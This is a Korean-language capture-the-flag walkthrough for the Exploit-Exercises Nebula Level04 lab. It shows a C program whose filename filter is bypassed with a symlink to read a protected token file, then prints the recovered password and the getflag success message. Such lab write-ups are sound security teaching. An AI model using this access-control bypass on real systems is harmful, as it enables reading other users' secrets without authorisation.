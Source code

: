 # Exploit-exercise Nebula Level04
```
This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.
```

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

`token` 파일을 읽으면 `flag04` 계정의 비밀번호를 얻을 수 있다고 한다.

`cd /home/flag04/` 명령어를 통해서 `flag04` 계정의 홈 디렉토리로 이동한 후, `ls` 을 통해 확인하면
```
flag04  token
```
다음과 같이 flag04 과 token 파일을 확인할 수 있다.

`./flag04 ./token` 을 입력하여 token 파일을 읽어보려고 했으나,

```
You may not access './token'
```
이라며 거절한다.


그렇다면 [심볼릭 링크]()를 통해서 문제를 풀면 된다.
```
ln -s /home/flag04/token /home/level04/aaa
```
다음과 같이 입력하여 token 파일을 가리키는 aaa 파일을 만들고,

```
/home/flag04/flag04 /home/level04/aaa
```
을 입력하게 되면, 

```
06508b5e-8909-4f38-b630-fdb148a848a2
```
라고 뜨고, 이 비밀번호를 가지고 `flag04` 유저로 로그인을 할 수 있고,

`flag04` 계정으로 로그인한 뒤, `getflag` 를 입력하면

```
You have successfully executed getflag on a target account
```

라고 뜨면서 풀리게 된다.